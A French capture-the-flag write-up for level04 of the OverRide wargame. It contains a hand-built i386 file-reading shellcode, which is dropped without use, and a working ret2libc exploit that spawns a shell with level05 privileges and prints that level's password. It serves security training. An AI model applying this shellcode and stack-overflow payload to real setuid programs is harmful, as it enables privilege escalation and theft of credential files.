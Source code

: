 # Level04

Nous remarquons la presence d'un fork, qui nous empeche de garde la main avec un simple shellcode.
Nous devons realiser notre propre shellcode file reader architecture i386,
il fera un open, read et write sur le fichier .pass du level suivant.

Le code asm est disponnible dans le fichier shell.s dans le dossier resources.

Ensuite nous recuperons sont code en hexa grace a obj dump.

```
level04@OverRide:/tmp/test$ objdump -d shellcode

shellcode:     file format elf32-i386

Disassembly of section .text:

08048060 <_start>:
 8048060:	31 c9                	xor    %ecx,%ecx
 8048062:	f7 e1                	mul    %ecx

08048064 <open>:
 8048064:	b0 05                	mov    $0x5,%al
 8048066:	51                   	push   %ecx
 8048067:	68 70 61 73 73       	push   $0x73736170
 804806c:	68 30 34 2f 2e       	push   $0x2e2f3430
 8048071:	68 65 76 65 6c       	push   $0x6c657665
 8048076:	68 72 73 2f 6c       	push   $0x6c2f7372
 804807b:	68 2f 75 73 65       	push   $0x6573752f
 8048080:	68 68 6f 6d 65       	push   $0x656d6f68
 8048085:	68 2f 2f 00 00       	push   $0x2f2f
 804808a:	89 e3                	mov    %esp,%ebx
 804808c:	cd 80                	int    $0x80

0804808e <read>:
 804808e:	93                   	xchg   %eax,%ebx
 804808f:	91                   	xchg   %eax,%ecx
 8048090:	b0 03                	mov    $0x3,%al
 8048092:	66 ba ff 0f          	mov    $0xfff,%dx
 8048096:	42                   	inc    %edx
 8048097:	cd 80                	int    $0x80

08048099 <write>:
 8048099:	92                   	xchg   %eax,%edx
 804809a:	b3 01                	mov    $0x1,%bl
 804809c:	c1 e8 0a             	shr    $0xa,%eax
 804809f:	cd 80                	int    $0x80

080480a1 <exit>:
 80480a1:	93                   	xchg   %eax,%ebx
 80480a2:	cd 80                	int    $0x80
```

Ce qui nous donne :
```
"\x31\xc9\xf7\xe1\xb0\x05\x51\x68\x70\x61\x73\x73\x68\x30\x34\x2f\x2e\x68\x65\x76\x65\x6c\x68\x72\x73\x2f\x6c\x68\x2f\x75\x73\x65\x68\x68\x6f\x6d\x65\x68\x2f\x2f\x00\x00\x89\xe3\xcd\x80\x93\x91\xb0\x03\x66\xba\xff\x0f\x42\xcd\x80\x92\xb3\x01\xc1\xe8\x0a\xcd\x80\x93\xcd\x80"


Création du ret2libc, pour cela nous avons besoin de l'adresse de `system` et de `exit` et de l'adresse de `/bin/sh` dans la libc.
```
$ gdb ./level04
(gdb) b main
(gdb) r
(gdb) info function exit
All functions matching regular expression "exit":

Non-debugging symbols:
0xf7e5eb70  exit
...

(gdb) info function system                                                                                                                                    [17/354]
All functions matching regular expression "system":

Non-debugging symbols:
0xf7e6aed0  __libc_system
0xf7e6aed0  system
0xf7f48a50  svcerr_systemerr
(gdb) info proc map
process 1996
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000        0x0 /home/users/level04/level04
         0x8049000  0x804a000     0x1000        0x0 /home/users/level04/level04
         0x804a000  0x804b000     0x1000     0x1000 /home/users/level04/level04
        0xf7e2b000 0xf7e2c000     0x1000        0x0
        0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
        0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
        0xf7fd0000 0xf7fd4000     0x4000        0x0
        0xf7fda000 0xf7fdb000     0x1000        0x0
        0xf7fdb000 0xf7fdc000     0x1000        0x0 [vdso]
        0xf7fdc000 0xf7ffc000    0x20000        0x0 /lib32/ld-2.15.so
        0xf7ffc000 0xf7ffd000     0x1000    0x1f000 /lib32/ld-2.15.so
        0xf7ffd000 0xf7ffe000     0x1000    0x20000 /lib32/ld-2.15.so
        0xfffdd000 0xffffe000    0x21000        0x0 [stack]
(gdb) find 0xf7e2c000,0xf7fcc000,"/bin/sh"
0xf7f897ec
1 pattern found.
(gdb) quit
```
Ensuite on va composer notre payload : padding + system + exit + /bin/sh
```
level04@OverRide:~$ (python -c 'print "B"*156+"\xd0\xae\xe6\xf7"+"\x70\xeb\xe5\xf7"+"\xec\x97\xf8\xf7"';cat) | ./level04
Give me some shellcode, k

id
uid=1004(level04) gid=1004(level04) euid=1005(level05) egid=100(users) groups=1005(level05),100(users),1004(level04)
cat ~level05/.pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```
